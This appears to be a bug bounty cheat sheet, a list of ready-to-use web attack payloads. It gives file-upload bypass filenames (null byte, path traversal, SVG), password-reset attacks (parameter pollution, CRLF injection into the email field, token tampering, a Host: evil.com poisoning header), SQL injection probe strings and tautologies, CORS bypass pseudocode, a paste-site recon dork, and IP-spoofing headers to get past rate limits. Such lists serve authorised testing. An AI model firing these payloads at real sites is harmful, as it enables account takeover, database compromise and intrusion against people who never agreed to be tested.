 # Bug Bounty Tips
---

## File Upload

`.htaccess`

`file.svg`

`file.SVg`

`file.png.svg`

`file.php%00.png`

`file.png' or '1'='1`

`../../file.png`

`file.'svg`

## Password Reset

```
POST /reset  
email=victim@tld.xyz&email=hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz&token=$BF$
```

```
POST /reset  
email=victim@tld.xyz&token=
```

```
POST /reset  
email=victim@tld.xyz&token=0000000
```

```
POST /reset  
email=victim@tld.xyz&token=nul
```

```
POST /reset  
email=victim@tld.xyz&token=nil
```

```
POST /reset  
email=victim@tld.xyz&token=HACKER-TOKEN
```

```
POST /reset  
email=victim@tld.xyz%0a%0dcc:hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz,hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz%20hacker@tld.xyz
```

```
POST /reset  
email=victim@tld.xyz|hacker@tld.xyz
```

```
POST /reset  
email=victim
```

```
POST /reset  
email=victim@tld
```

```
POST /reset  
Host: evil.com
```

```
POST /reset
{"email":["victim@tld.xyz","hacker@tld.xyz"]}
```

**Check body response for password token**

**Token generation: timestamp? userid? useremail? random?**

## SQL Injection

`/?q=1`

`/?q=1'`

`/?q=1"`

`/?q=[1]`

`/?q[]=1`

```/?q=1` ```

`/?q=1\`

`/?q=1/*'*/`

`/?q=1/*!1111'*/`

`/?q=1'||'asd'||'`

`/?q=1' or '1'='1`

`/?q=1 or 1=1`

`/?q='or''='`

```
username: '--' / "--"
password: '--' / "--"
```

## CORS

```python
if isBlocked("evil.com"):
  try("target.network")
  try("target.computer")
```

## Recon


`site:http://ideone.com | site:http://codebeautify.org | site:http://codeshare.io | site:http://codepen.io | site:http://repl.it | site:http://justpaste.it | site:http://pastebin.com | site:http://jsfiddle.net | site:http://trello.com "$TARGET"`

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

## Rate limit bypass

```
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

**Increment last octate if blocked**

## Subdomain list

amass + altdns + dnsprobe + nmap

## Information disclosure

- Check if email disclosed in response after inviting a user
